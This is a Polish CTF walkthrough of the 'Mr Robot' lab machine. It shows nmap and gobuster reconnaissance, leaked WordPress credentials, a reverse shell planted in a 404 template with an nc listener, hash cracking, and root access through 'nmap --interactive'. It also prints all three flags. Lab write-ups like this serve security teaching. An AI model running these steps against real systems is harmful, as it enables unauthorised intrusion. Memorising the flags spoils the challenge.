



# Mr Robot
IP=10.10.129

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.129.64
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-04 07:04 EDT
Nmap scan report for 10.10.129.64
Host is up (0.082s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.61 seconds
```

Zostały wykryte 3 porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:


Strona nie zawiera nic ciekawego, przechodzimy do enumeracji katalogów narzędziem gobuster:

```
gobuster dir --url http://10.10.129.64/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```



W katalogu robots.txt znajdujemy lokalizację pierwszej flagi oraz plik, który po pobraniu okazuje się być listą słów:


Odczytujemy pierwszą flagę:


```
073403c8a58a1f80d943455fb30724b9
```

W znalezionym katalogu "/license" znajdujemy login i hasło w formacie base64:


```
ZWxsaW90OkVSMjgtMDY1Mgo=
```

Dekodujemy dane za pomocą [CyberChef'a](https://gchq.github.io/CyberChef/) 



```
elliot:ER28-0652
```

Przechodzimy do podstrony "login" i logujemy się do aplikacji WordPress'a:


## Eksploitacja

Udajemy się kolejno do: Appearance -> Editor -> 404 Template:


Podmieniamy kod php, który wykona się podczas błędu 404, czyli błędu braku strony, na nasz kod [reverse shell'a](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):


Po zmianie adresu ip i portu w skrypcie ustawiamy nasłuchiwanie komendą:

```
nc -lvnp [PORT]
```

Wywołujemy błąd braku strony wchodząc na stronę, która nie istnieje:


Uzyskujemy dostęp do serwera jako użytkownik deamon:



W katalogu domowym użytkownika robot znajdujemy hash hasła:


Łamiemy go na stronie [CrackStation](https://crackstation.net/):


```
robot:abcdefghijklmnopqrstuvwxyz
```

Logujemy się na użytkownika robot:


Odczytujemy drugą flagę:


```
822c73956184f694993bede3eb39f959
```

## Zwiększenie poziomu uprawnień

Wgrywamy program [Linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20240804-31b931f7), nadajemy mu uprawnienia do wykonywania i uruchamiamy go:


Widzimy, że na 95% możemy wykorzystać program nmap do podniesienia swoich uprawnień. Przechodzimy na stronę [gtfobins](https://gtfobins.github.io/gtfobins/nmap/) i szukamy exploit'a:


Otwieramy interfejs nmap'a komedną:

```
nmap --interactive
```

Następnie wpisujemy:

```
!sh
```

Otrzymujemy uprawnienia root'a:


W katalogu domowym użytkownika root znajdujemy trzecią flagę:


```
04787ddef27c3dee1ee161b21670b4e4
```

Do zobaczenia na kolejnych CTF-ach!
